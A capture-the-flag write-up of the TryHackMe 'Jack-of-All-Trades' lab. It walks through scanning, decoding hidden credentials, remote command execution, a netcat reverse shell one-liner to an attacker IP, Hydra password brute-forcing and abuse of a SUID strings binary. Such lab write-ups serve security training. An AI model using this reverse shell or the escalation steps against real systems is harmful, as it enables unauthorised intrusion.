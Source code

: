 # Jack-of-All-Trades TryHackMe Writeup
### Level: `Easy` | OS: `Linux`

![logo](1.jpeg)

## Scanning
We performed an nmap scan of all ports, with scripts and software versions.

![](2.png)

## Enumeration
We tried to access the website from the browser, but it will not open.

![](3.png)

But, if we try **curl** we will see the content of the site, there is a string in **base64**.

![](4.png)

Decode the message, you will get a password.

![](5.png)

We access the file *"recovery.php "*, there we will have to decode another message, this time it will be more complicated.

![](6.png)

We access the site with the hint, we see a famous *"dinosaur"*. After reading the message and the image, we already sense what we have to do.

#### Download stego.jpg image

![](7.png)

Let's try the other image... And we got credentials.

![](8.png)

Searching through **Google**, we found this [tutorial](https://www.ryadel.com/en/firefox-this-address-is-restricted-override-fix-port/
) that explains how to change the port to browse **Firefox**, so we follow the guide, access the file *"recovery.php"* and use the credentials obtained.

![](9.png)

## Exploitation
We make a small one and check that we can execute commands.

![](9.png)

#### Reverse shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
We will use the above *payload + URL-Encode* to obtain a shell on the victim machine.

![](10.png)

We access the *"/home/"* and find a list of passwords for the user *"Jack"*.

![](11.png)

We use the **Hydra** tool to obtain the correct password in just seconds.

![](12.png)

We access by **SSH**, we enumerate a file *"user.jpg"*. We transfer it to our machine and read the user flag.

![](13.png)

#### Evidence user flag

![](14.png)

## Abuse of privileges
We launch the **lse.sh** tool, enumerate the uncommon SUID *strings* binary.

![](15.png)

We look for information, we see that it is possible to load a variable with an arbitrary path and to be able to execute **strings** to read its content. 

First, I tried to read the file *"id_rsa"* of the root user, but it does not exist. So a quick option is to read the flag directly.

![](16.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
